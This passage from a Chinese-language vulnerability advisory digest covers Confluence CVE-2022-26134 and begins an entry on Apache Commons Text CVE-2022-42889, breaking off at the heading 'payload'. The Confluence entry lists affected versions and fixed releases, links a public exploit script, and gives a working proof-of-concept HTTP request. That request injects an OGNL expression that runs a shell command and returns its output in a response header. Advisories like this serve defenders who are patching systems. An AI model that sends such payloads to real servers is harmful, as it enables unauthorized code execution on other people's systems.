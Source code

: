   1. Confluence Server / Data Center 1.3.0 < 7.4.17
  2. Confluence Server / Data Center 7.13.0 < 7.13.7
  3. Confluence Server / Data Center 7.14.0 < 7.14.3
  4. Confluence Server / Data Center 7.15.0 < 7.15.2
  5. Confluence Server / Data Center 7.16.0 < 7.16.4
  6. Confluence Server / Data Center 7.17.0 < 7.17.4
  7. Confluence Server / Data Center 7.18.0 < 7.18.1

 **利用方法：**  
POC数据包

    
    
    GET //%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1  
    Host: XX.XX.XX.XX  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: JSESSIONID=3764D915B037D5A50D8025AA793E990A  
    Connection: close  
    

github利用脚本：  
https://github.com/Nwqda/CVE-2022-26134  
 **修复建议**  
官方已发布漏洞补丁及修复版本，请评估业务是否受影响后，参考官方升级  
说明，酌情升级至安全版本：

  1. Confluence Server / Data Center >= 7.4.17
  2. Confluence Server / Data Center >= 7.13.7
  3. Confluence Server / Data Center >= 7.14.3
  4. Confluence Server / Data Center >= 7.15.2
  5. Confluence Server / Data Center >= 7.16.4
  6. Confluence Server / Data Center >= 7.17.4
  7. Confluence Server / Data Center >= 7.18.1

# 4、 **Apache Commons Text 远程代码执行漏洞**

当使用 Apache Commons Text
中的字符串替换功能时，一些可用的插值器可以触发网络访问或代码执行。如果应用程序在传递给替换的字符串中包含用户输入而未对其进行适当清理，则攻击者将允许攻击者触发这些插值器。  
 **漏洞标签：** 供应链风险、历史重大漏洞、利用链成熟、服务器权限相关  
 **漏洞编号：** CVE-2022-42889  
 **漏洞类型：** RCE  
 **受影响版本：**

  1. 1.5.0 ≤ Apache Commons Text ＜ 1.10.0

 **利用方法：**  
payload
